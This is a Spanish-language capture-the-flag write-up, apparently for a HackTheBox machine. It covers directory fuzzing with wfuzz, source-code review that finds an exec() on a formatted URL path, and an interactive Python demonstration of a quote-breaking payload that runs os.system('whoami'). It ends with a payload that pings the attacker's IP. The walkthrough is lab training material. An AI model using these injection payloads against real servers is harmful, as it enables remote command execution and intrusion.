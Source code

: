 Cada pocas busquedas se cuelga esto, como habla de directorio "dev"....
```console
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
000004521:   200        170 L    498 W      5892 Ch     "develop"
```
-----------------------------
# Part 2: Framwork custom

En /develop/SuperSecureServer.py podemos obtener el codigo fuente de la web
Si tenemos un codigo antes de analizarlo es mejor buscar funciones peligrosas, que es realmente lo que interesa
entre todo
```console
└─$ cat SuperSecureServer.py | grep -niE "exec|os\.|system"
130:            exec(info.format(path)) # This is how you do string formatting, right?
```
Esa linea reside en esta función:

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right?
```
```console
└─$ python3
>>> import urllib

>>> path = "http://10.10.10.168:8080/index.html"
>>> info = "output = 'Document: {}'"
>>> info.format(path)
"output = 'Document: http://10.10.10.168:8080/index.html'"

>>> path = "http://10.10.10.168:8080/index.html; whoami"
>>> info.format(path) # -> "output = 'Document: http://10.10.10.168:8080/index.html; os.system('whoami')'"
>>> exec(info.format(path))
# Como no hemos cerrado la comilla ('...index.html; os.system('whoami')') se toma todo como parte de la url.

>>> path = "http://10.10.10.168:8080/index.html'; os.system('whoami');'"
>>> info.format(path) # "output = 'Document: http://10.10.10.168:8080/index.html';os.system('whoami');''"
>>> exec(info.format(path))
cucuxii
# La ";" sirve para dividir lineas en python por tanto:
#linea = 'url'; linea = os.system; linea = '' (cerrar la comilla inicial  'Document: http...) 
# "[  'url(...)';  ] + [  os system('whoami');  ] + [  ''  ]"
# '"http://obscure.htb:8080/';os.system('ping -c 1 10.10.14.16');'"
```
Por tanto podríamos tener ejecución remota de comandos. 
